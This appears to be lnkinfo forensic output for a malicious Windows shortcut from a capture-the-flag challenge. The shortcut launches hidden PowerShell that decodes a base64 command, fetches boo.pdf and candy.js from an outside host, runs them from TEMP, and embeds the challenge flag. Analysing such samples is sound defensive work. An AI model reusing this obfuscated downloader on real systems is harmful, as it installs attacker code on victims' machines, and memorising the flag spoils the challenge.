             ```text
                lnkinfo 20181227

                Windows Shortcut information:
                        Contains a link target identifier
                        Contains a description string
                        Contains a relative path string
                        Contains a command line arguments string
                        Contains an icon location string
                        Contains an icon location block

                Link information:
                        Creation time                   : Not set (0)
                        Modification time               : Not set (0)
                        Access time                     : Not set (0)
                        File size                       : 0 bytes
                        Icon index                      : 70
                        Show Window value               : 0x00000000
                        Hot Key value                   : 0
                        File attribute flags            : 0x00000000
                        Description                     : Trick or treat
                        Relative path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
                        Command line arguments          : -WindowStyle hidden -NoExit -Command "$fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=';$dwQWf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));Invoke-Expression -Command $dwQWf"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
                        Icon location                   : %SystemRoot%\System32\shell32.dll

                Link target identifier:
                        Shell item list
                                Number of items         : 7

                        Shell item: 1
                                Item type               : Root folder
                                Class type indicator    : 0x1f (Root folder)
                                Shell folder identifier : 20d04fe0-3aea-1069-a2d8-08002b30309d
                                Shell folder name       : My Computer

                        Shell item: 2
                                Item type               : Volume
                                Class type indicator    : 0x2f (Volume)
                                Volume name             : C:\

                        Shell item: 3
                                Item type               : File entry
                                Class type indicator    : 0x31 (File entry: Directory)
                                Name                    : Windows
                                Modification time       : Not set (0)
                                File attribute flags    : 0x00000010
                                        Is directory (FILE_ATTRIBUTE_DIRECTORY)
                        Extension block: 1
                                Signature               : 0xbeef0004 (File entry extension)
                                Long name               : Windows
                                Creation time           : Not set (0)
                                Access time             : Not set (0)
